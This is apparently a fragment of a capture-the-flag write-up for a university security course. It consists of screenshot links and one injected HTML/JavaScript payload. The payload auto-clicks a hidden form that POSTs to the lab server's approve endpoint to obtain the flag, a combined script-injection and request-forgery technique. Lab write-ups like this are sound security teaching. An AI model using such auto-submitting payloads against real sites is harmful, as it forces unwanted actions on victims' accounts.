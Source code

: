 
![alt text](img/Screenshot%202022-12-15%20at%2003.58.37.JPG)

![alt text](img/Screenshot%202022-12-15%20at%2003.59.04.JPG)

![alt text](img/Screenshot%202022-12-15%20at%2004.01.34.JPG)

![alt text](img/Screenshot%202022-12-15%20at%2004.07.57.JPG)

![alt text](img/Screenshot%202022-12-15%20at%2004.31.26.JPG)

```js
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/7f8239235c090b367f448c2280247c8c78f40726/approve" role="form"><div class="submit"><input type="submit" id='giveflag' value="Give the flag"></div></form><script type="text/javascript">document.getElementById("giveflag").click();</script>
```